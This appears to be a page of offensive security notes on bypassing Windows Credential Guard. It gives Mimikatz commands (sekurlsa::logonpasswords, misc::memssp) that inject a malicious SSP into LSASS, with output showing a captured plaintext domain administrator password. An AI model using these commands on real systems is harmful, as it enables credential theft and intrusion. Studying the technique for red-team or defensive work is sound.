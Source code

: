 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SSP Injection

**Credential Guard** uses Virtualization-Based Security (VBS) to protect credentials by isolating them in a secure environment. VBS creates protected memory regions that the OS cannot access, enforced by **Virtual Trust Levels (VTLs)**. VTL0 hosts the regular Windows environment, while VTL1 runs critical security functions.&#x20;

When enabled, Credential Guard **moves credential storage from LSASS to an isolated process (`LSAISO.exe`) in VTL1,** communicating with LSASS in VTL0. This prevents tools like Mimikatz, operating in VTL0, from accessing credential data. Introduced in Windows 10 and Server 2016, it is now enabled by default on modern Windows installations, though older systems may have it disabled.

> _**Credential Guard is only designed to protect non-local users**. This means that we are still able to obtain NTLM hashes for the local users on the target machine._

If we perform a [Pass-the-Hash](pass-the-hash.md) attack, and Credential Guard is enabled, we won't be able to get the domain's `Administrator` hash, even if we know that the domain `Administrator` has logged into the target host. This is because we cannot obtain the cached hashes as **the** `LSASS` **process only has access to this information after it has been encrypted by the** `LSAISO` **process**.

{% code overflow="wrap" %}
```powershell
mimikatz # sekurlsa::logonpasswords
...
Authentication Id : 0 ; 4214404 (00000000:00404e84)
Session           : RemoteInteractive from 4
User Name         : Administrator
Domain            : CORP
Logon Server      : SERVERWK248
Logon Time        : 9/19/2024 4:39:07 AM
SID               : S-1-5-21-1711441587-1152167230-1972296030-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : CORP
           * LSA Isolated Data: NtlmHash
             KdfContext: 7862d5bf49e0d0acee2bfb233e6e5ca6456cd38d5bbd5cc04588fbd24010dd54
             Tag       : 04fe7ed60e46f7cc13c6c5951eb8db91
             AuthData  : 0100000000000000000000000000000001000000340000004e746c6d48617368
             Encrypted : 6ad536994213cea0d0b4ff783b8eeb51e5a156e058a36e9dfa8811396e15555d40546e8e1941cbfc32e8905ff705181214f8ec5c
```
{% endcode %}

To bypass Credential Guard, attackers **intercept credentials during login instead of retrieving cached ones**. Windows authentication uses the **Security Support Provider Interface (SSPI)** with providers like Kerberos and NTLM. By registering a malicious SSP via the registry or injecting it into LSASS, attackers can capture plaintext credentials as they pass through SSPI. Mimikatz’s `memssp` module automates this by injecting an SSP into LSASS memory, capturing credentials without writing files to disk.

```powershell
mimikatz # misc::memssp
Injected =)
```

At this point, when another user remotely connects to the machine their credentials will be captured.

```powershell
> type C:\Windows\System32\mimilsa.log
<SNIP>
[00000000:0066608e] CORP\Administrator  QWERTY123!@#
<SNIP>
```
